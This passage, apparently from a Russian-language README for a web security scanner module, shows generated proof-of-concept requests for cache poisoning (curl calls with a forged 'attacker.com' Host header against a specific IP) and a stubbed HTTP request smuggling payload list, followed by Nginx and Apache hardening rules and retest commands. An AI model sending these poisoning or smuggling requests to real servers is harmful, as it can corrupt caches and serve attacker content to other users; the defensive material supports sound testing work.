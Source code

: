 ### 💥 **Генерация PoC:**
Автоматически создает готовые к использованию эксплойты:

#### **Cache Poisoning:**
```bash
#!/bin/bash
# Отравление кэша через Host заголовок
curl -v -H "Host: attacker.com" http://172.67.68.228/
curl -v -H "Host: legitimate.com" http://172.67.68.228/
curl -v http://172.67.68.228/ # Возвращает отравленный контент
```

#### **HTTP Smuggling:**
```python
#!/usr/bin/env python3
# Продвинутый HTTP Request Smuggling
smuggling_payloads = [
    "POST / HTTP/1.1\r\nHost: target\r\nContent-Length: 54\r\n...",
    # Множественные адаптивные полезные нагрузки
]
```

---

## 🛡️ СТРАТЕГИИ ЗАЩИТЫ

### 🚨 **Автоматические рекомендации:**
Модуль генерирует готовые конфигурации для:

#### **Nginx защита:**
```nginx
server {
    if ($host !~ ^(legitimate-domain\.com)$ ) {
        return 444;
    }
    proxy_cache_key $scheme$proxy_host$request_uri;
}
```

#### **Apache защита:**
```apache
RewriteEngine On
RewriteCond %{HTTP:Transfer-Encoding} chunked [NC]  
RewriteCond %{HTTP:Content-Length} !^$ [NC]
RewriteRule .* - [F,L]
```

#### **Команды тестирования:**
```bash
# Тест исправления cache poisoning
curl -H "Host: evil.com" http://target.com
# Ожидается: 444 или 400

# Тест исправления smuggling  
curl -X POST -H "Transfer-Encoding: chunked" -H "Content-Length: 0" http://target.com
# Ожидается: 400 или закрытие соединения
```

---